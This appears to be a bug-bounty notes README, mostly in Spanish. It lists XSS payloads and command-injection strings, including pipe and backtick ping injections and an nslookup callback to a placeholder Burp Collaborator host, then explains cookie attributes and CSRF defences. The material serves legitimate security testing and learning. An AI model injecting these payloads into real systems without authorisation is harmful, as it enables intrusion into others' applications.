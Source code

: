 # BugBounty_tips

#Xss
%u003Csvg onload=alert(1)> \
%u3008svg onload=alert(2)> \
%uFF1Csvg onload=alert(3)> \
=<img%20src=x%20onerror=alert('Welcome,%20v
q=<g><script>alert%28document.domain%29<%2Fscript>   
<img src=x onerror=console.log("XSS")>   
‘);</script><script>alert(1)</script>  
{{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,alert(1),a')}}


#Command Injection
url/cgi-bin/parameter=payload
payload 1 [PING]
|ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #' |ping -n 21 127.0.0.1||`ping -c 21 127.0.0.1` #\" |ping -n 21 127.0.0.1 
payload 2 [Nslookup]
|nslookup -q=cname http://YOUR.burpcollaborator.net.&
  
  
#cookie atributes
Las cookies son utilizadas a menudo en aplicaciones web para identificar a un usuario y su sesión
Creando
Set-Cookie: <nombre-cookie>=<valor-cookie>
---
Session
Expires
---
Securizar
Cookies Secure y HttpOnly
Previene la lectura y modificacion
Para prevenir ataques cross-site scripting (XSS (en-US)), las cookies HttpOnly son inaccesibles desde la API de Javascript Document.cookie; Solamente se envían al servidor. Por ejemplo, las cookies que persisten sesiones del lado del servidor no necesitan estar disponibles para JavaScript, por lo que debería establecerse el flag HttpOnly.
---
Alcance
Las directivas Domain y Path definen el alcance de la cookie: a qué URLs deberían enviarse las cookies.
Domain : especifica los hosts permitidos
Path   : espeficia directorios
---
Samesite
SameSite=Strict
Si una cookie same-site tiene este atributo, el navegador sólo enviará cookies si la solicitud se originó en el sitio web que estableció la cookie.y no hara en origenes distintos
Lax
Si el atributo se establece en Lax, las cookies same-site se retienen en (sub)peticiones cross-site, tales como llamadas para cargar imágenes o frames

---
Acceso desde JavaScript usando Document.cookie
También se pueden crear nuevas cookies via JavaScript usando la propiedad Document.cookie, y si el flag HttpOnly no está establecido

Tracking no legal
  
HOW WORKS HTTPONLY
https://www.youtube.com/watch?v=d8liHExs5tc
https://www.youtube.com/watch?v=ZSUGfIy1ds8
https://www.youtube.com/watch?v=brNL_bvUCck
  

SAMEORIGINPOLICY SOP

  
  
  
 
#CSRF
Los endpoints GET no deben tener acciones de modificación, y si esto se necesita se debería requerir una petición POST. Además los endpoints POST no debería aceptar la intercambiabilidad de aceptar peticiones GET con parametros en query string
Un token CSRF debería ser incluido en cada elemento <form> mediante un input oculto. Este token debe ser único para cada usuario y almacenado (por ejemplo, en una cookie). De esta forma el servidor puede mirar si el valor requerido es enviado, y en cierto modo lo idea sería descartar la petición si el valor no concuerda con lo esperado.
Este método de protección recae en la imposibilidad de que un atacante pueda predecir este token autogenerado en cada inicio de sesión. Cabe aclarar que este token debería ser regenerado en cada inicio de sesión.
Al igual que con {{Glosario ("XSS")}}, el filtrado de entrada es importante.
Debería de existir siempre un requerimiento de confirmación para cualquier acción delicada,.
Las cookies empleadas en acciones delicadas deberían de tener una vida útil breve.

  
  
  
  
  
  
  
  
  
 
  



